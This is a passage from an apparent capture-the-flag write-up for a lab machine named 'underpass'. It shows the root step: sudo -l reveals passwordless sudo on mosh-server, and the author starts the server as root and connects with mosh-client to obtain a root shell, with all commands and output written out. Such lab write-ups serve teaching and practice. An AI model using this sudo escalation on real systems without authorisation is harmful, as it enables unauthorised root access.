 ## Root
The user `svcMosh` can execute `mosh-server` as root.
```console
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```
I did a little googling to get familiar with what `mosh-server` is.  In short it is the server side component of Mosh (Mobile Shell).  Mosh is a remote terminal application similar, but different from ssh.  I figure I'll try to start the mosh server and then connect to the server.  I found this [stackoverflow](https://stackoverflow.com/questions/69884458/cant-connect-to-server-via-mosh) question helpful figuring out how to start and connect to the server.
```console
svcMosh@underpass:~$ sudo mosh-server


MOSH CONNECT 60001 JQJ+bacfXIVKqO8mTQeYMQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 6398]
svcMosh@underpass:~$ MOSH_KEY=JQJ+bacfXIVKqO8mTQeYMQ mosh-client 127.0.0.1 60001
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jun 15 12:58:51 AM UTC 2025

  System load:  0.4               Processes:             227
  Usage of /:   59.4% of 6.56GB   Users logged in:       2
  Memory usage: 11%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



root@underpass:~#

```
Connecting to the Mosh server, I find that I am root on the machine!